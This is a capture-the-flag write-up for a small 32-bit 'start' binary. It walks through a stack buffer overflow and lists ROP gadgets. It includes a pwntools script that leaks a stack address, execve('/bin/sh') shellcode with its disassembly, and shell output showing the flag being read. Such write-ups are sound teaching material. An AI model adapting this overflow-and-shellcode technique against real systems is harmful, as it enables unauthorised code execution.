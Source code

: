 # Start Write-up
Alright so my first steps were to download the binary and open it up in ghidra. Opening it up in ghidra yielded nothing because the program was a super basic opcodes. With no libraries. This made it really hard for ghidra to figure out what the functions were really doing. This meant I would have to open it up in GDB to see what was happening in the dissassembly.

I first ran the program to see what it did. All it did was send a 20-byte message:
`Let's start the CTF:`
then it gave a prompt. It seemed like anything you sent in the prompt would exit the program.

I opened the binary in GDB to find exactly that. Looking at the functions I found "\_start" was where all the magic happened. It was very crude instructions in 32-bit. It looked a little bit like this:

![Pasted image 20220113144304](https://user-images.githubusercontent.com/63262961/149428905-e619f0ad-0fd7-48ad-981c-3a42d0d86ae1.png)

I was interested in this part:
```
xor	ebx,ebx
mov	dl,0x3c
mov	al,0x3
int 0x80
```
This essentially called `read(0, ???, 0x3c)`
The ??? was confusing, but then I read up above `mov ecx,esp` which meant that ecx was representing the stack, so it would be `read(0, stack, 0x3c)`
This meant there was an easy buffer overflow, but not as easy as I originally imagined. Essentially the stack looked like this:
```
0xffffbf04 ◂— 0x2774654c ("Let'")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
So when the program ran it would overwrite the stack with your input up to `0x3c` bytes. So if you typed `blah` the stack would look like:
```
0xffffbf04 ◂— 0x68616c62 ("blah")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
This means that you would have to type 20 characters before you hit the return address.
`0x3c` = 60 so you have 60-20 = 40 bytes of buffer overflow. Thats a good amount. I ended up looking at the ROPgadgets to see what I could do to change the control flow of the program:
`$ ROPgadget --binary ./start` 
```
0x0804809b : adc al, 0xc3 ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804808e : add al, 0xcd ; xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048099 : add esp, 0x14 ; ret 
0x08048086 : daa ; mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 0x080480a0 : inc eax ; int 0x80 
0x0804808f : int 0x80 
0x0804809a : les edx, ptr [ebx + eax*8] ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x08048095 : mov al, 3 ; int 0x80 
0x0804808d : mov al, 4 ; int 0x80 
0x0804808b : mov bl, 1 ; mov al, 4 ; int 0x80 
0x08048089 : mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x08048093 : mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 
0x0804809d : pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804809c : ret 
0x08048090 : xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x0804809e : xor eax, eax ; inc eax ; int 0x80 
0x08048091 : xor ebx, ebx ; mov dl, 0x3c ; mov al, 3 ; int 0x80
```
Seeing this I realized my options were limited, but I decided to start trying things out. The first gadget I tried was: `0x080480a0 : inc eax ; int 0x80` since I knew it would change the function that gets called. What I got was `0x18 + 1` for my eax value which corresponded to the `stime` syscall. After trying different inputs I found that eax was being saved from the `read` function which would return the size of the input. Which was `0x18`. When I increased the size of the input, I could get different syscall codes untill I reached `0x3c`(the max read size). Looking at my options for possible syscalls led to nothing. So that idea was scrapped.

The next idea I had was to use shellcode in my input to run some code (maybe pop a shell). Looking at `vmmap` I realized that might be possible since the stack was executable. The addresses of the stack were randomized though, so I had to find a way to leak the stack. Looking at the ROPgadgets I saw this function:
`0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80`
Essentially this would print out 20 bytes from the stack. since we had already moved the stack pointer past the string that it gives, it would run: `write(1, stack, 0x14)` this is what my program looked like:
```python
#! /usr/bin/env python 
from pwn import * 
context.terminal = ['tmux', 'splitw', '-h']  
addr_ecx2 = 0x08048087
p = process("./start") 
gdb.attach(p, 'b _start') 
p.recv()
payload = b"A"*(0x14) 
payload += p32(addr_ecx2) 
p.send(payload) 
x = p.recv() 
print(hex(u32(x[0:4]))) 
print(hex(u32(x[4:8]))) 
print(hex(u32(x[8:12]))) 
p.interactive()
```
I was able to leak 3 addresses with one of them in the same page as the stack:(`x[0:4]`)
This was some really good news. It meant I could run shellcode directly. So I created a new program that would send Shellcode in my input and then send the program to that spot in the stack. This would be the control flow:
`_start` -> enter `"A"*0x14 + 0x08048087` -> `_start+39` = `0x08048087` -> read stack address -> enter `shellcode + stack address` -> `stack address`
The program I wrote did exactly that. My shellcode looked like this:
`"j\x0bXhn/shh//bi1\xc9\x99T[\xcd\x80"`
And it didn't work.

Why? The shellcode I thought was too long. I thought the shellcode was somehow breaking after like 10 characters. I spent an insane amount of time trying to get the shellcode to be small enough to fit into the space.
Then I looked really hard at what was happening. The instructions from my shellcode looked like this:
```
push $SYS_execve 
pop %eax
push $0
push $0x68732f6e 
push $0x69622f2f
xor %ecx, %ecx 
cltd 
push %esp 
pop %ebx 
int $0x80
```
I noticed that when the program got to `push $0x69622f2f` it would overwrite the rest of the shellcode. OF COURSE!!! The shellcode was on the stack and pushing values onto the stack would overwrite those values. 

All I had to do to solve it was place the shellcode at the end of my input so it would overwrite useless parts of the stack and boom! it worked:
```
$ ls
bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
$ cd home
$ cd start
$ ls
flag
run.sh
start
$ cat flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```
The final expoit script is in this repo.
